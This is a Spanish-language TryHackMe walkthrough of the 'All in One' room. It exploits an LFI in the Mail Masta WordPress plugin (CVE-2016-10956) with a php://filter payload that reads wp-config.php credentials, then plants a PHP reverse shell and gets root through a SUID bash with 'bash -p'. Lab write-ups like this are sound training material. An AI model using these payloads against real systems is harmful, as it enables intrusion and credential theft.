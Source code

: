 ```yaml
---
layout: writeup
category: TryHackMe
chall_description: https://tryhackme.com/r/room/allinonemj
points: 160
solves: 2
tags: tryhackme ejptv2
date: 2024-08-23
comments: false
---
```


# Enumeration and Scanning

Primero de todos hacemos un escaneo de los puertos y sus servicios

![image](https://github.com/user-attachments/assets/197fa6d1-b90b-40b4-9b3c-af2cd5b40bbc)

### Puerto 80 (HTTP Server)

Seguimos con la enumeración y comenzamos con el puerto 80:

![image](https://github.com/user-attachments/assets/fb30bc7f-580a-4488-bbce-93669d6c0a2c)

Parece la típica página por defecto de servidores Apache. Enumeramos los directorios del servidor web:

    [+] Url:                     http://10.10.33.133/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/local/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /wordpress            (Status: 301) [Size: 316] [--> http://10.10.33.133/wordpress/]
    /hackathons           (Status: 200) [Size: 197]
    

Hay un directorio wordpress. Vemos lo que tiene:

![image](https://github.com/user-attachments/assets/fc0ef621-48b0-4c4c-b0d3-65ebcfad41d1)

Parece una web hecha con Wordpress. Le lanzamos WPScan para saber plugins vulnerables, temas vulnerables y enumerar usuarios y conseguimos sacar un usuario:

    [+] elyana
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.29.33/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

Probamos bruteforce al login de wordpress y no obtuvimos nada. Volvemos a lanzar WPScan para ver si encontramos alguna vulnerabilidad de los plugins, y encontramos que de Mail Masta 1.0 encontramos 2 vulnerabilidades interesantes:

    [+] mail-masta
     | Location: http://10.10.168.165/wordpress/wp-content/plugins/mail-masta/
     | Latest Version: 1.0 (up to date)
     | Last Updated: 2014-09-19T07:52:00.000Z
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | [!] 2 vulnerabilities identified:
     |
     | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
     | [!] Title: Mail Masta 1.0 - Multiple SQL Injection

# Vulnerability assesment

### CVE-2016-10956

 > *The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation*

Esta vulnerabilidad ataca al pathing "wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=*file*" a través del parámetro pl.
Probamos a acceder a /etc/passwd:

![image](https://github.com/user-attachments/assets/19155f1b-5d52-43df-aeae-8c5cb1fa1d3a)

Le pasamos el siguiente payload:

* http://ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php *

Para obtener el contenido de wp-config en base64. Procedemos a su decodificación:

![image](https://github.com/user-attachments/assets/586fe8d4-717d-44b3-b87b-1ff6bae196d6)

Y vemos las credenciales de acceso a la base de datos:

    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'elyana' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'H@ckme@123' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

Probamos a utilizar esas credenciales para acceder al panel de Wordpress:

![image](https://github.com/user-attachments/assets/c44e1a6d-853c-4cb6-9f71-cf6f94d68de6)

Con este acceso, ya podemos crear una PHP Reverse Shell en uno de los temas y con ello acceder al sistema:

![image](https://github.com/user-attachments/assets/262c4cb3-942d-4fb8-94ee-dad037825391)

Activamos el listener en nc:

![image](https://github.com/user-attachments/assets/b2e7f312-e483-4180-8d53-173599d07d8c)

Y accedemos a la web... ¡obtenemos acceso al sistema!

![image](https://github.com/user-attachments/assets/20e5ce8b-3a58-4752-89c6-0897a5fa7cfb)

Pero para acceder a la flag de usuario, necesitamos cambiar de usuario, ya que somos www-data y necesitamos ser mínimo el usuario elyana.
Vamos a ver si podemos escalar privilegios directamente y desde root acceder a las dos flags.

# Privilege escalation

Comenzamos haciendo la enumeración básica de ficheros con permisos SUID:

    bash-4.4$ find / -perm /4000 2>/dev/null
    find / -perm /4000 2>/dev/null
    /bin/mount
    /bin/ping
    /bin/fusermount
    /bin/su
    /bin/bash
    /bin/chmod
    /bin/umount
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/snapd/snap-confine
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/bin/newuidmap
    /usr/bin/pkexec
    /usr/bin/lxc
    /usr/bin/traceroute6.iputils
    /usr/bin/newgidmap
    /usr/bin/chfn
    /usr/bin/chsh
    /usr/bin/newgrp
    /usr/bin/sudo
    /usr/bin/socat
    /usr/bin/gpasswd
    /usr/bin/at
    /usr/bin/passwd

Vemos un fichero interesante con el cual la escalada de privilegios es simple. Ese fichero es /bin/bash. Lo ejecutamos tal cual, y con eso ya somos root:

    bash-4.4$ /bin/bash -p
    /bin/bash -p
    bash-4.4# whoami
    whoami
    root
    bash-4.4#

Y ya desde root podemos acceder a la flag de user.txt en /home/elyana/user.txt y la de root en /root/root.txt

